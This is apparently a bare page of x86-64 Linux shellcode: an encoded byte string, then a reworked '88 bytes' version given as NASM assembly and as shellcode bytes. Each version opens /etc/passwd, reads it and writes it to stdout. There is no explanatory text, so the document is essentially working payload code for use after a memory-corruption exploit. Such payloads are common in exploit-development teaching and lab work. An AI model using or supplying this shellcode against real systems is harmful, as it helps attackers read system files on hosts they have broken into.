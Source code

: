 ```
\xeb\x3b\x5f\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec
\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f
\x48\x31\xc0\x0f\x05\x48\x31\xff\x48\xff\xc7\x48\x89\xc2\x48\x31
\xc0\x48\xff\xc0\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xc0\xff
\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64
```

#### 2.改 	88bytes

```
global _start
section .text

_start:
	xor rax,rax
	add rax,0x647773
	push rax
	mov rax,0x7361702f6374652f
	push rax
	mov rdi,rsp 
	
	xor rax, rax
	push rax
	add al, 2
	xor rsi, rsi 
	add rsi,2
	
	syscall   
    
	sub sp, 0xfff
	lea rsi, [rsp]
	mov rdi, rax			
	xor rdx, rdx
	mov rdx, 0xfff
	xor rax, rax
	syscall        
  
	xor rdi, rdi
	inc rdi 		
	mov rdx, rax
	xor rax, rax
	inc rax
	syscall 
  
	xor rax, rax
	add al, 60
	syscall   

```



```
\x48\x31\xc0\x48\x05\x73\x77\x64\x00\x50\x48\xb8\x2f\x65\x74\x63
\x2f\x70\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x04\x02\x48\x31
\xf6\x48\x83\xc6\x02\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24
\x48\x89\xc7\x48\x31\xd2\xba\xff\x0f\x00\x00\x48\x31\xc0\x0f\x05
\x48\x31\xff\x48\xff\xc7\x48\x89\xc2\x48\x31\xc0\x48\xff\xc0\x0f
\x05\x48\x31\xc0\x04\x3c\x0f\x05
```
